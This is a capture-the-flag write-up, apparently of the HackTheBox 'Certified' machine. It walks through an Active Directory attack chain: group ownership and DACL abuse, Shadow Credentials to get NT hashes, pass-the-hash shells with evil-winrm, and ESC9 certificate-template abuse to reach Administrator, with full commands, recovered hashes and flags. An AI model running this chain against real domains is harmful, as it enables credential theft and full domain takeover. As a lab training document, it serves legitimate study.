



# Certified Walkthrough

## Recon

### nmap
I start with nmap nmap -p- --min-rate 10000 10.129.231.186

PORT      STATE SERVICE  
53/tcp    open  domain  
88/tcp    open  kerberos-sec  
135/tcp   open  msrpc  
139/tcp   open  netbios-ssn  
389/tcp   open  ldap  
445/tcp   open  microsoft-ds  
464/tcp   open  kpasswd5  
593/tcp   open  http-rpc-epmap  
636/tcp   open  ldapssl  
3268/tcp  open  globalcatLDAP  
3269/tcp  open  globalcatLDAPssl  
5985/tcp  open  wsman  
9389/tcp  open  adws  
49667/tcp open  unknown  
49693/tcp open  unknown  
49694/tcp open  unknown  
49695/tcp open  unknown  
49724/tcp open  unknown  
49733/tcp open  unknown  

There are multiple ports open and scan those ports specificially 

nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5357,5985,9389 -sCV 10.129.231.186  

PORT     STATE    SERVICE       VERSION  
53/tcp   open     domain        Simple DNS Plus  
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-29 08:19:26Z)  
135/tcp  open     msrpc         Microsoft Windows RPC  
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
|_ssl-date: 2026-04-29T08:20:47+00:00; +7h00m06s from scanner time.  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|_Not valid after:  2105-05-23T21:05:29  
445/tcp  open     microsoft-ds?  
464/tcp  open     kpasswd5?  
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|_Not valid after:  2105-05-23T21:05:29  
|_ssl-date: 2026-04-29T08:20:47+00:00; +7h00m06s from scanner time.  
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
|_ssl-date: 2026-04-29T08:20:47+00:00; +7h00m06s from scanner time.  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|_Not valid after:  2105-05-23T21:05:29  
3269/tcp open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)  
| ssl-cert: Subject:   
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED  
| Not valid before: 2025-06-11T21:05:29  
|_Not valid after:  2105-05-23T21:05:29  
|_ssl-date: 2026-04-29T08:20:47+00:00; +7h00m06s from scanner time.  
5357/tcp filtered wsdapi  
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|_http-title: Not Found  
|_http-server-header: Microsoft-HTTPAPI/2.0  
9389/tcp open     mc-nmf        .NET Message Framing  
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
| smb2-time:   
|   date: 2026-04-29T08:20:08  
|_  start_date: N/A  
| smb2-security-mode:   
|   3.1.1:   
|_    Message signing enabled and required  
|_clock-skew: mean: 7h00m06s, deviation: 0s, median: 7h00m05s  

So it is modern Window host with Win 10+ and Server 2016. The domain certified.htb shows in LDAP results and the hostname is DC01. I will add to /etc/hosts

10.129.231.186 dc01.certified.htb certified.htb

### Initial Credentials
Given account with Username: judith.mader Password: judith09, we can start with that low priviledge 

netexec smb certified.htb -u judith.mader -p judith09  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09  

=> It works for SMB

Now I tried with winrm 

netexec winrm certified.htb -u judith.mader -p judith09  
WINRM       10.129.231.186  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)  
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.  ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.  
  arc4 = algorithms.ARC4(self._key)  
WINRM       10.129.231.186  5985   DC01             [-] certified.htb\judith.mader:judith09  

Let is start with SMB TCP 445

netexec smb dc01.certified.htb --shares  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED  
  
netexec smb dc01.certified.htb -u guest -p '' --shares  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [-] certified.htb\guest: STATUS_ACCOUNT_DISABLED  
  
netexec smb dc01.certified.htb -u ad -p '' --shares  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [-] certified.htb\ad: STATUS_LOGON_FAILURE  

So using netexec to find any shares but I am not allowed to access anything

So I tried with  Username: judith.mader Password: judith09

netexec smb dc01.certified.htb -u judith.mader -p judith09 --shares  
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09  
SMB         10.129.231.186  445    DC01             [*] Enumerated shares  
SMB         10.129.231.186  445    DC01             Share           Permissions       Remark                                                                              
SMB         10.129.231.186  445    DC01             -----           -----------       ------                                                                              
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote   Admin                                                                        
SMB         10.129.231.186  445    DC01             C$                              Default   share                                                                       
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote   IPC                                                                          
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server   share                                                                  
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share  

Now I will use bloodhound to collect info

bloodhound-python -c all -u judith.mader -p judith09 -d certified.htb -ns 10.129.231.186 --zip

INFO: Found AD domain: certified.htb  
INFO: Getting TGT for user  
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)  
INFO: Connecting to LDAP server: dc01.certified.htb  
INFO: Found 1 domains  
INFO: Found 1 domains in the forest  
INFO: Found 1 computers  
INFO: Connecting to LDAP server: dc01.certified.htb  
INFO: Found 10 users  
INFO: Found 53 groups  
INFO: Found 2 gpos  
INFO: Found 1 ous  
INFO: Found 19 containers  
INFO: Found 0 trusts  
INFO: Starting computer enumeration with 10 workers  
INFO: Querying computer: DC01.certified.htb  
INFO: Done in 00M 06S  
INFO: Compressing output into 20260428231050_bloodhound.zip  

So I find judith.mader and mark them as owned. Then I will look the data on the right with outbound object control

So Judith has the WriteOwner on the Management group, and it has GenericWrite over Management_SVC user. It also have GenericAll over CA_ operator. It shows full path 

### ADCS
Let's take a look ADCS. So Certipy is nice tool to find any vulnerable and credentials that I can abuse

certipy-ad find -vulnerable -u judith.mader -p judith09 -dc-ip 10.129.231.186 -stdout

[*] Finding certificate templates  
[*] Found 34 certificate templates  
[*] Finding certificate authorities  
[*] Found 1 certificate authority  
[*] Found 12 enabled certificate templates  
[*] Finding issuance policies  
[*] Found 15 issuance policies  
[*] Found 0 OIDs linked to templates  
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP  
[!] Failed to connect to remote registry. Service should be starting now. Trying again...  
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'  
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'  
[!] Error checking web enrollment: timed out  
[!] Use -debug to print a stacktrace  
[!] Error checking web enrollment: timed out  
[!] Use -debug to print a stacktrace  
[*] Enumeration output:  
Certificate Authorities  
  0  
    CA Name                             : certified-DC01-CA  
    DNS Name                            : DC01.certified.htb  
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb  
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D  
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00  
    Certificate Validity End            : 2124-05-13 15:43:41+00:00  
    Web Enrollment  
      HTTP  
        Enabled                         : False  
      HTTPS  
        Enabled                         : False  
    User Specified SAN                  : Disabled  
    Request Disposition                 : Issue  
    Enforce Encryption for Requests     : Enabled  
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy  
    Permissions  
      Owner                             : CERTIFIED.HTB\Administrators  
      Access Rights  
        ManageCa                        : CERTIFIED.HTB\Administrators  
                                          CERTIFIED.HTB\Domain Admins  
                                          CERTIFIED.HTB\Enterprise Admins  
        ManageCertificates              : CERTIFIED.HTB\Administrators  
                                          CERTIFIED.HTB\Domain Admins  
                                          CERTIFIED.HTB\Enterprise Admins  
        Enroll                          : CERTIFIED.HTB\Authenticated Users  
Certificate Templates                   : [!] Could not find any certificate templates  

It gives some info about CA but doesn't show any template to exploit.

### Shell as Management _SVC 
Add Judith.Mader to Management

Click on WriteOwner between Judith and Mangement edge, I can see LinuxAbuse

This allows me to grant myself the privileges to add members to the group

impacket-owneredit -dc-ip 10.129.231.186 -action write -new-owner judith.mader -target management certified/judith.mader:judith09

[*] Current owner information below  
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512  
[*] - sAMAccountName: Domain Admins  
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb  
[*] OwnerSid modified successfully!  

### Modify Right
Then I give Judith.mader the rights to add user aka AddMember permission

impacket-dacledit -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186

[*] DACL backed up to dacledit-20260429-001225.bak  
[*] DACL modified successfully!  

### Add Member to Management
Now i can use impacket-net to add judith.mader to the Management group

net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
=> I got Access denied then i check

net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
=> only CERTIFIED\management_svc

So I kept those close to me since it get reset periodically fast:  
impacket-owneredit -dc-ip 10.129.231.186 -action write -new-owner judith.mader -target management certified/judith.mader:judith09

impacket-dacledit -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186

net rpc group addmem Management judith.mader -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186

net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186

Now I got it:  
CERTIFIED\judith.mader  
CERTIFIED\management_svc

### Getting NTLM for Management_SVC
Now I click GenericWrite between Management and Management_SVC edge to see Linux abuse

So It suggests that I can Targeted Kerberoast, or a Shadow Credential. I want to try Shadow Credentials as it is new for me 

faketime -f +7h certipy-ad shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186

Woala I got the hash NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584

### WinRm 

I check whether the hash is working   
netexec smb certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584  
=> It works
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584  

netexec winrm certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM       10.129.231.186  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)  
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.  ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.  
  arc4 = algorithms.ARC4(self._key)  
WINRM       10.129.231.186  5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)  
=> It works

The bloodhound data show management svc member of remote management users

### Shell
Let's use evil winrm to get on the shell  
evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584  
*Evil-WinRM* PS C:\Users\management_svc\Documents>

=> Let's go to Desktop where user.flag will be

*Evil-WinRM* PS C:\Users\management_svc\Desktop> cat user.txt  
f09c8373b5393f6390253b0f80450f2e  

### Shell as CA_Operator
As User login there is nothing interesting. Let's try to get the root

### ADCS 
I run certipy-ad to find any vuln template on management-svc along the hashes I found.

certipy-ad find -vulnerable -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.129.231.186 -stdout
=> I ran but nothing interesting

### Shadow Credential
Now I use shadow credential to get NTLM
So I know management_svc user has GenericAll over the CA_Operator user. I can use attack above to ntlm hash

certipy-ad shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186

Without faketime +7 I cant get the hash because ERR SKEW too great => Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) 

faketime -f +7h certipy-ad shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186

There we go I get NTML hashes for CA_operator   
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2

Let's validate the hashes with smb and winrm
netexec smb dc01.certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2

SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True)   (SMBv1:None) (Null Auth:True)                                                                           
SMB         10.129.231.186  445    DC01             [+] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2  

=> It works for SMB

but for winrm 
netexec winrm dc01.certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2

WINRM       10.129.231.186  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)  
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.  ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.  
  arc4 = algorithms.ARC4(self._key)  
WINRM       10.129.231.186  5985   DC01             [-] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2  

### Shell as Administrator
I will use certipy-ad to vulnerable with ca_operator along my hashes I found above

certipy-ad find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.231.186 -stdout

=> I found vulnerable with ESC9 

=>ESC9                              : Template has no security extension.

So basically GenericWrite over another account

Then change the userPrincipalName or the UPB of second account to the Administrator

So when I request a certificate as the second account, the server will return one with UPN Administrator and no SID

With this Vulnerability, window will think that domain is the domain and authenticate as administrator

### Exploit ESC9
I abuse my access to the management_svc account that has GenericAll over the ca_operator account:

certipy-ad account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
[*] Updating user 'ca_operator':  
    userPrincipalName                   : Administrator  
[*] Successfully updated 'ca_operator'  

And now I can request a certificate as ca_operator using vuln template

certipy-ad req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186

[*] Saving certificate and private key to 'administrator.pfx'  
[*] Wrote certificate and private key to 'administrator.pfx'  

I see that the UPN is Administrator and there’s no SID in the certificate. After this step, I cleanup by changing ca_operator’s upn back to original (in the real world how hacker/pentester think not leave evidence without trace).

certipy-ad account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186

I got the pfx and using certipy-ad

faketime -f +7h certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb

=> I got the hashes

[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

Let's get the shell
evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34

*Evil-WinRM* PS C:\Users\Administrator> ls

=> there we go I got in and look for flag at Desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
ef24b1b17772d3635c16eb0b782975dd

And I got the root. Great adventures!

                                                          